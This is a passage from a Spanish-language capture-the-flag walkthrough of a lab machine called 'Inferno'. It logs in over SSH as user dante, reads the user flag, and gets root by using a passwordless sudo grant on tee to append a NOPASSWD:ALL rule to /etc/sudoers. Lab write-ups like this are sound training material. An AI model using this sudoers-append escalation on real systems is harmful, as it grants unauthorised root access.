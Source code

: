 Ahora ya podemos conectarnos por SSH a la máquina víctima con el usuario `dante`

```bash
❯ ssh dante@192.168.1.149
The authenticity of host '192.168.1.149 (192.168.1.149)' can t be established.
ECDSA key fingerprint is SHA256:gevtPAVy2xIkGpAh9I8EkxaUTwwM192kXCg468jjhvo.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.1.149' (ECDSA) to the list of known hosts.
dante@192.168.1.149 s password: 
Linux Inferno 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Dec  6 08:00:42 2020 from 192.168.1.124
dante@Inferno:~$ whoami
dante
```

La flag la encontramos en su directorio personal bajo el nombre `local.txt`

```bash
dante@Inferno:~$ cat local.txt 
77f6f3c544ec0811e2d1243e2e0d1835
```

### Escalada de Privilegios (Inferno)

* * *

Iniciamos enumeración del sistema listando grupos y privilegios de sudo

```bash
dante@Inferno:~$ id
uid=1000(dante) gid=1000(dante) groups=1000(dante),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
dante@Inferno:~$ sudo -l
Matching Defaults entries for dante on Inferno:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User dante may run the following commands on Inferno:
    (root) NOPASSWD: /usr/bin/tee
```

Tenemos capacidad de ejecución del comando `tee` como su el cual nos permite añadir texto a un archivo. Se nos ocurre añadir al archivo `/etc/sudoers` la capacidad para el usario `dante` de ejecutar cualquier binario conmo sudo

```bash
dante@Inferno:~$ echo "dante ALL=(ALL) NOPASSWD:ALL" | sudo tee -a /etc/sudoers
dante ALL=(ALL) NOPASSWD:ALL
dante@Inferno:~$ sudo -l
Matching Defaults entries for dante on Inferno:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User dante may run the following commands on Inferno:
    (root) NOPASSWD: /usr/bin/tee
    (ALL) NOPASSWD: ALL
dante@Inferno:~$ sudo su
root@Inferno:/home/dante# whoami
root
```
La flag de root se encuentra bajo su directorio personal con el nombre de `proof.txt`
